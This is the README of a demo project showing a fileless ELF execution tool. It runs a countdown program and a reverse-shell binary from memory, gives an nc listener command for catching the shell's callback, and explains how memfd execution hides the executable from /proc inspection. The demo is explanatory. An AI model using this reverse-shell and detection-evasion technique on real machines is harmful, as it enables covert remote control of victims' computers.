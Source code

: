 # fee_demo
- Demonstration of tool `fileless-elf-exec` (https://github.com/nnsee/fileless-elf-exec)
- Code for shell taken from https://gist.github.com/magisterquis/ce8b99b42188f4517efb3e1038a483de
- [Video demo](https://youtu.be/hi2bJ6eiw8o)

### Usage
- Tutorial for usage on fedora Linux
- Install golang and fee: `bash install.sh`
- Compile countdown code: `bash compile_odb.sh`
- Compile shell code: `bash compile_shell.sh`
- Start countdown executable "normaly": `./odbrojavanje/odbrojavanje`
- Start countdown executable with `fee`: `python fee_odb.py`
- Start shell executable "normaly": `./shell/demoshell`
- Start shell executable with `fee`: `python fee_shell.py`
- The scripts are configured for amd64 arhitecture, if you are using different arhitecture try removing (or changing to your arhitecture) `--target` flag
  
### Shell demo
- After starting the program, in the second terminal execute the following command: `rlwrap -S "$(printf '\033[95mds>\033[m ')" nc -nvlp 4444`
- You should enter the interactive shell in which you can execute any command
- The point of the attack is to execute demoshell on victim's computer and configure it to send a callback to attacker's computer
- In this scenario, victim and attacker are on the same host for simplicity
- When executed with `fee` (i.e. without using reading source file from disk) it is harder to trace and detect the malware (in this case demoshell)
### Difference
- After starting the program, exeute `ps aux | grep <program_name>` where `<program_name>` is either `'demoshell'` or `'odbrojavanje'` and find PID of the process
- Execute `ls -l /proc/<PID>/exe`
- If you executed program "normally" you should be able to see link to your executable file, while if you executed fee script, you should see something like `'/memfd: (deleted)'`, i.e. you won't be able to see link to the executable 
